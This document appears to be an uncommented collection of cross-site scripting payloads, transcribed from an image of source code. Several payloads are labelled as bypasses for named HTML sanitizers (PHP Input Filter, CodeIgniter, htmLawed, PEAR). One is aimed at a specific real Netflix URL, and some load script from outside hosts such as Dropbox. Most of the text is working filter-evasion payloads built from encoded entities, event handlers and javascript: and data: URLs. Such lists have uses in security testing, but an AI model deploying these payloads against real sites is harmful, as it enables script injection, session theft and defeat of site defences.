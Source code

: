a<div style="color:rgb(''&#0;x:expression(alert(1))"></div> 

<img/src=%00 id=confirm(1) onerror=eval(id) [PHP Input Filter Class]

<div id=confirm(1) onmouseover=eval(id)>X</div> + <span/onmouseover=confirm(1)>X</span>[CodeIgniter Bypass]

<svg/contentScriptType=text/vbs><script>Execute(MsgBox(chr(88)&chr(83)&chr(83))) 

<iframe/src="javascript:a=[alert&lpar;1&rpar;,confirm&#40;2&#41;,prompt%283%29];eval(a[0]);">

<div/style=content:url(data:image/svg+xml);visibility:visible onmouseover=alert(1)>x</div> [htmLawed bypass]

<script>Object.defineProperties(window,{w:{value:{f:function(){return 1}}}});confirm(w.f())</script>

<keygen/onfocus=prompt(1);> + <img/src=`%00` id=confirm(1) onerror=eval(id)

<img/src=`%00` onerror=this.onerror=confirm(1)

<iframe/src="data:text/html,<iframe%09onload=confirm(1);>">

<math><a/xlink:href=javascript:eval('\141\154\145\162\164\50\61\51')>X 

<input/type="image"/value=""`<span/onmouseover='confirm(1)'>X`</span>

<form/action=javascript&#x0003A;eval(setTimeout(confirm(1)))><input/type=submit>

<body/onload=this.onload=document.body.innerHTML=alert&lpar;1&rpar;>

<iframe/onload='javascript&#58;void&#40;1&#41;&quest;void&#40;1&#41;&#58;confirm&#40;1&#41;'>

<object/type="text/x-scriptlet"/data="data:X,&#60script&#62setInterval&lpar;'prompt(1)',10&rpar;&#60/script&#62"></object>

<i<f<r<a<m<e><iframe/onload=confirm(1);></i>f>r>a>m>e> 

http://www.<script abc>setTimeout('confirm(1)',1)</script .com> 

<style/onload    =    !-alert&#x28;1&#x29;>

<svg id=a /><script language=vbs for=a event=onload>alert 1</script>


http://ats.netflix.com/ats/dvdApp?id=NFX00647&source="/><style/onload+=+!-alert&#x28;1&#x29;>

<object/data="data&colon;X&comma;&lt;script&gt;alert&#40;1&#41;%3c&sol;script%3e">

<form/action=javascript&#x3A;void(1)&quest;void(1)&colon;alert(1)><input/type='submit'> 

<iframe/srcdoc='&lt;iframe&sol;onload&equals;confirm(&sol;&iexcl;&hearts;&xcup;&sol;)&gt;'> 

<meta/http-equiv="refresh"/content="0;url=javascript&Tab;:&Tab;void(alert(0))?0:0,0,prompt(0)"> 

<script src="h&Tab;t&Tab;t&Tab;p&Tab;s&colon;/&Tab;/&Tab;http://dl.dropbox.com/u/13018058/js.js …"></script>

<style/onload='javascript&colon;void(0)?void(0)&colon;confirm(1)'>

<svg><style>&#x7B;-o-link-source&#x3A;'<style/onload=confirm(1)>'&#x7D;

<math><solve i.e., x=2+2*2-2/2=? href="data:text/html,<script>prompt(1)</script>">X 

<iframe/src="j&Tab;AVASCRIP&NewLine;t:\u0061ler\u0074&#x28;1&#x29;">

<iframe/src="javascript:void(alert(1))?alert(1):confirm(1),prompt(1)">

<embed/src=javascript&colon;\u0061&#x6C;&#101%72t&#x28;1&#x29;>

<img/src='http://i.imgur.com/P8mL8.jpg ' onmouseover={confirm(1)}f()> [htmLawed Bypass]

<style/&Tab;/onload=;&Tab;this&Tab;.&Tab;onload=confirm(1)> 

<embed/src=//goo.gl/nlX0P> <form><button formaction=javascript:alert(1)>CLICKME [PEAR's BYPASS]

<script>x='con';s='firm';S='(1)';setTimeout(x+s+S,0);</script>

<img/id="confirm&lpar;1&#x29;"/alt="/"src="/"onerror=eval(id&#x29;>

<iframe/src="data&colon;text&sol;html,<s&Tab;cr&Tab;ip&Tab;t>confirm(1)</script>">
